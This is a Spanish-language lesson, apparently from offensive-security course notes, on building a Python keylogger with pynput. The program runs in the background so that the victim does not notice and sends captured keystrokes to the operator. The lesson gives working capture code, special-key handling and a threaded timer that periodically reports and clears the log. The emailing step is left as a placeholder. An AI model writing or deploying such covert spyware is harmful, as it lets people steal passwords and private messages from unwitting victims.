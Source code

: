 
--- 
- TAG: #Desarrollo #Keylogger #Parte1 
-----
En esta clase, nos adentraremos en la creación de un **keylogger**, una herramienta fundamental en el mundo de la ciberseguridad ofensiva. Para esto, utilizaremos la biblioteca **pynput** de Python, que es una herramienta efectiva para monitorear y registrar las pulsaciones de teclado.

**Pynput** es una biblioteca que nos permite controlar y monitorear la entrada del usuario desde el teclado y el ratón. En el contexto de un keylogger, nos centraremos en la capacidad de pynput para registrar cada tecla presionada en el teclado. Esto es especialmente útil en escenarios de ciberseguridad ofensiva, donde la recopilación de pulsaciones de teclas puede revelar información sensible como contraseñas, mensajes privados o cualquier otro tipo de datos ingresados a través del teclado.

El aspecto clave de esta clase será no solo registrar estas pulsaciones, sino también aprender a enviar esta información de manera automática y discreta por correo electrónico. Esto implica configurar un sistema que agrupe las pulsaciones de teclas capturadas y las envíe periódicamente a una dirección de correo electrónico especificada. Esta funcionalidad aumenta la eficacia del keylogger, permitiéndonos acceder a la información capturada de forma remota y continua, lo cual es crucial para operaciones prolongadas de vigilancia o recopilación de datos.

Te guiaremos a través de todo el proceso de configuración del keylogger, desde la captura de las pulsaciones de teclas hasta la implementación del sistema de envío de correos electrónicos, proporcionándote una comprensión completa de cómo se pueden utilizar estas herramientas en escenarios de ciberseguridad ofensiva.

---

**Creación de un Keylogger en Python**

La idea es crear un script en **Python** específico para Linux que corra en segundo plano, sin que la víctima se dé cuenta. Mientras tanto, en paralelo, interceptamos todas sus pulsaciones y, además de capturarlas, las enviamos por correo electrónico.

Cuando ejecutemos este **Keylogger**, nos llegará un primer correo que diga "Primer keylogger iniciado" y luego, en intervalos de 10 segundos, recibiremos una cadena con lo que el usuario vaya introduciendo.

Para este ejemplo, podemos usar un correo temporal o personal, pero debemos tener en cuenta que es necesario activar el doble factor de autenticación. Esto se debe a que el envío de correos por Python ya no acepta solo el usuario y contraseña; en su lugar, crearemos una aplicación vinculada a nuestra cuenta de correo con una contraseña asignada. Esta aplicación actuará como intermediario y enviará los correos a nuestra cuenta de Gmail.

---

**Creación del archivo `keylogger.py`**

Nos dirigimos a nuestro entorno de trabajo y creamos el archivo **`keylogger.py`** con el siguiente código:

```python
#!/usr/bin/python3

import pynput.keyboard

def pressed_key(key):
    print(key)

keyboard_listener = pynput.keyboard.Listener(on_press=pressed_key)

with keyboard_listener:
    keyboard_listener.join()
```

Es posible que no tengan instalada la librería `pynput`, ya que no es parte de las instalaciones predeterminadas de Python. Para instalarla, ejecuten:

```bash
pip3 install pynput
```

### Explicación

- Lo primero que hemos hecho es crear un **listener**, es decir, nos ponemos en escucha continua para registrar las pulsaciones.
- Creamos una instancia de la clase `Listener` de `pynput.keyboard.Listener(on_press=pressed_key)`, donde `pressed_key` es la función que recibirá las pulsaciones.
- El **listener** necesita ponerse en escucha utilizando `with keyboard_listener:`. 
- Esta clase crea un manejador de contexto para definir internamente toda la lógica que necesitamos. Finalmente, con `.join()`, arrancamos el listener.

---

**Probando el Keylogger**

Para verificar que todo esté funcionando correctamente, podemos hacer una prueba sencilla ejecutando:

```bash
python3 keylogger.py
```

En otra terminal, empezamos a escribir y veremos que el keylogger funciona. Sin embargo, el formato de salida no es el más amigable, ya que aparece de la siguiente manera:

```
h
o
l
a
p
r
o
b
a
n
d
o
```

---

**Mejorando la salida del Keylogger**

Para solucionar esto, crearemos una variable global `log` donde almacenaremos todos los caracteres. Es importante recordar que el `log` dentro de la función `pressed_key` es un valor distinto al global.

- Para eliminar las comillas simples y mejorar la visualización del texto capturado, podemos usar `key.char`.
- Añadimos una excepción de tipo `AttributeError` para evitar errores cuando queramos realizar combinaciones de teclas como **Ctrl + Enter** o abrir otra terminal.

Dentro de la excepción, podemos manejar teclas especiales, como los espacios. Por ejemplo, si la tecla presionada es un espacio, asignaremos `log += " "` para representarlo correctamente.

---

**Refactorización y envío por correo**

Queremos enviar la cadena obtenida cada 10 segundos por correo electrónico. Una vez enviado, debemos limpiar el `log` para que pueda recibir nuevos caracteres y enviarlos nuevamente. Para gestionar el envío regular de la información, usaremos hilos (**threads**) y la utilidad **`Timer`** de la librería `threading`.

### Conceptos adicionales:
- **Hilos:** Nos permiten ejecutar múltiples procesos en paralelo.
- **Recursividad:** Es cuando una función se llama a sí misma. En nuestro caso, la función `report()` será responsable de vaciar el contenido del log y enviarlo por correo, y se llamará a sí misma cada 10 segundos.

Ahora, agregamos la lógica para enviar el correo e incluimos la función `timer`, que será la encargada de definir cada cuánto tiempo queremos que se ejecute la función `report()`.

---

**Código mejorado del Keylogger:**

```python
#!/usr/bin/python3

import pynput.keyboard
import threading

log = ""  # Variable global para almacenar las pulsaciones

def pressed_key(key):
    global log

    try:
        log += str(key.char)  # Almacenar caracteres comunes

    except AttributeError:
        # Manejo de teclas especiales
        special_keys = {
            key.space: " ", 
            key.backspace: " [Backspace] ", 
            key.enter: " [Enter] ", 
            key.shift: " [Shift] ", 
            key.ctrl: " [Ctrl] ", 
            key.alt: " [Alt] "
        }
        log += special_keys.get(key, f" [{str(key)}] ")

    print(log)  # Visualizar las pulsaciones almacenadas

def report():
    global log
    # Aquí es donde enviaríamos el contenido por correo
    print(f"Enviando log: {log}")
    
    log = ""  # Limpiamos el log para almacenar nuevas pulsaciones

    # Ejecutamos la función report cada 5 segundos
    timer = threading.Timer(5, report)
    timer.start()

# Configuración del listener de teclas
keyboard_listener = pynput.keyboard.Listener(on_press=pressed_key)

with keyboard_listener:
    report()  # Iniciar la función de envío en paralelo
    keyboard_listener.join()
```

---

**Mejoras adicionales:**
- Se han añadido teclas especiales como **Enter**, **Shift**, **Ctrl**, y **Backspace** para tener un mejor control y representación en el `log`.
- El uso de hilos nos permite enviar el log de manera periódica sin bloquear la captura de las teclas.
  
